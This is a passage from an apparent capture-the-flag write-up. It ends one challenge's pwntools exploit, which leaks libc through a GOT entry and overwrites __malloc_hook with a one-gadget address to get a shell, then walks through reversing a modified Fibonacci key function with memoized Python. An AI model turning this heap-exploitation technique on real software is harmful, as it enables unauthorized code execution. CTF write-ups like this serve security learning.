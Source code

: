 ```python
make("3", 0) # id 9
make(p64(GOT_STRCHR), 0)
LIBC_STRCHR = inspect(1)
LIBC_BASE = LIBC_STRCHR - libc.symbols['strchr'] - 0x30
LIBC_MALLOC_HOOK = LIBC_BASE + libc.symbols['__malloc_hook']
print(hex(LIBC_MALLOC_HOOK))
LIBC_ONE = LIBC_BASE + 0x4526a
make(p64(LIBC_MALLOC_HOOK).replace('\x00',''), LIBC_ONE)

r.interactive()
```

## be-quick-or-be-dead-3

Firstly, in order to debug the program easier, I `NOP`'d out the call to `set_timer` using Radare's `-w` mode. This challenge is very similar to be-quick-or-be-dead-2, where instead of generating plain Fibonacci numbers as the key for decryption, it generates numbers from a sort of modified Fibonacci. 
You can see this in Hopper's pseudocode:
```C
#called with 0x18f4b
int calc(int arg0) {
    var_24 = arg0;
    if (var_24 <= 0x4) {
            var_14 = var_24 * var_24 + 0x2345;
    }
    else {
            var_14 = calc(var_24 - 0x5) * 0x1234 + (calc(var_24 - 0x1) - calc(var_24 - 0x2)) + (calc(var_24 - 0x3) - calc(var_24 - 0x4));
    }
    rax = var_14;
    return rax;
}
```
I then replicated this as python code:
```python
a = 0x18f4b  
def f(x):  
	if x <= 4: 
		return x * x + 0x2345  
	return f(x - 0x5) * 0x1234 + f(x-1) - f(x-2) + f(x-3) - f(x-4) 
f(a)
```
The value of `a` is way too large for the answer to be found with regular recursion, so I optimized the recursive function with dynamic programming, like so:
```python
a = 0x18f4b
memo = {}

def g(x):
	if x in memo:
		return memo[x]
	if x <= 4:
		res = x * x + 0x2345
	else:
		res = g(x-5) * 0x1234 + g(x-1) - g(x-2) + g(x-3) - g(x-4)
	memo[x] = res
	return res
		
#populate memo to avoid reaching max recursion depth
for i in range(a):
	g(i)
#"casting" to 32 bit integer
print(ctypes.c_uint32(g(a)).value)
```